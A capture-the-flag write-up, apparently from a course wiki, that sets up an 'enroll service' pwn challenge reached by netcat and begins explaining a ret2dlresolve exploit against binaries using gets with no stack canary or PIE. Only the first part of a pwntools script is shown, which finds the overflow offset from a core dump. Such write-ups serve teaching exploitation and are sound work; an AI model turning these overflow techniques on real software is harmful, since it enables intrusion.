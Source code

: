 It's super hard to convince my Boss that report system is just broken temporarily. Now I'm going to learn programming and security very hard to save my job.

---- 2 DAYS LATER ----

Totally didn't learn.

"Some students want to enroll this course, please make something to collect enroll."

"But, but this course is full already..."

"CS315 is hard, someone gonna to quit. So, in case anyone want to enroll, we need to handle this." The Boss looked at me, "can't you programming?"

"Yep! Yeah, seriously I can programming very well!"

I need to prepare my CV now.

[awesome_enroll_service](https://wiki.compass.college/CS315/file/chall3-2)

[awesome_enroll_service.c](file/chall3-2.c)

`nc ali.infury.org 10005`

*Please use netcat to connect and solve challenges! And don't ask why there isn't a flag.txt in source code...*

#### Writeup

#### Summary

I'm lumping all of these together since I used the *exact* same code on all of them. And I'm sure this was *not* the intended solution.

I'm not going to cover all the internals or details of ret2dlresolve (in this write up, I'm working on a future article), however here are two good reads:

https://syst3mfailure.io/ret2dl_resolve
https://gist.github.com/ricardo2197/8c7f6f5b8950ed6771c1cd3a116f7e62

#### Analysis

##### Checksec

```
    Arch:     amd64-64-little
    Stack:    No canary found
    PIE:      No PIE (0x400000)
```

All three had at least the above--all that is needed for easy ret2dlresolve with `gets`. That, and dynamically linked.

> Perhaps it's time to retire `gets`.

#### Exploit (./getsome.py)

```
#!/usr/bin/env python3

from pwn import *

binary = context.binary = ELF(args.BIN)

p = process(binary.path)
p.sendline(cyclic(1024,n=8))
p.wait()
core = p.corefile
p.close()
os.remove(core.file.name)
padding = cyclic_find(core.read(core.rsp, 8),n=8)
log.info('padding: ' + hex(padding))

```